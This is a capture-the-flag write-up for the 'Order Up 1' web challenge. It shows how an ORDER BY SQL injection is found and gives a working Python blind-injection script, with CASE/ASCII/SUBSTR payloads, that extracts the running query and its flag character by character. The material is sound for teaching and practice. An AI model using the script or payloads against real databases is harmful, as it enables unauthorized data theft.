 ## Title 

Order Up 1

## Description

I hope my under construction web site is secure.

Solving this will unlock a series of related challenges that ALL use the same challenge instance.

To find the first flag, find a way to view the text of the SQL query.

If you find some other flag, it will be related to one of the others in this series.

## Solution

When we access the URL we get a list of items that we can order.
Looking at it with burp, two requests are sent:
    - one GET request for the endpoint
    - one GET request for the endpoint `/query` with the following parameters: `col1=category&col2=item_name&col3=description&col4=price&order=category,item_name` 

If we try to change the columns names like: `GET /query?col1=cateagory&col2=iteam_name&col3=descaription&col4=priace&order=category,item_name`
We get: `Invalid column names provided`. This is a indication that they are the columns of a sql table. 
However when we try to change the order parameter with: `order=category,item_name'`
We get: `500 Internal Server Error`, and this is a good indication of injection because the server is not handling well our input.


*Exploiting SQL injection in an ORDER BY clause is significantly different from most other cases. A database will not accept a UNION, WHERE, OR, or AND keyword at this point in the query. Exploitation requires the attacker to specify a nested query in place of the ORDER BY parameter identified above. * [https://portswigger.net/support/sql-injection-in-the-query-structure]()

In the above link, they give an example on how to extract information one letter at a time using the following payload: `(CASE WHEN (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM users where id='5')=80 THEN username ELSE id END) where 80 is one of the letters we are comparing.

So, since we don't have much info about the table, database or query we will start by the query and start extracting the query that is used here.
In order to verify if the letter is correct we will order for item_name, first being `"item_name":"BBQ Pulled Pork Sandwich"`, if not, order by category.
For that we will use current_query(), `python3 exploit.py https://dyn-svc-order-up-kxdfoyp940qjbhy2x1pl-okntin33tq-ul.a.run.app "current_query()"`:

```py
import requests
import json
import string
import sys

a = string.printable
s = ""
url = sys.argv[1] + "/query"
for i in range(1,100):
    for j in a:
        data = {
            "col1":"item_name",
            "order":f" (case when (ascii(substr({sys.argv[2]},{i},1))={ord(j)}) then item_name else category end)"
            #(case when (ascii(substr(current_database(),0,1))>0) then item_name else category end)
        }
        r=requests.get(url,params=data)
        if json.loads(r.text)[0]["item_name"] == "BBQ Pulled Pork Sandwich":
            print("ok")
            s+=j
            print(s)
            break
        else:
            print(f"[{j}]: Not OK")
```

There is a walkthrough made by the creator here: [https://github.com/sambrow/my_ctf_challenges/blob/main/wolvsec_ctf_2024/order-up/WALKTHROUGH_ORDERUP1.md]().
We get the query: `SELECT item_name from /*wctf{0rd3r_by_1nj3ct10n_1s_fun_09376523465}*/ menu_items order by  (case wh`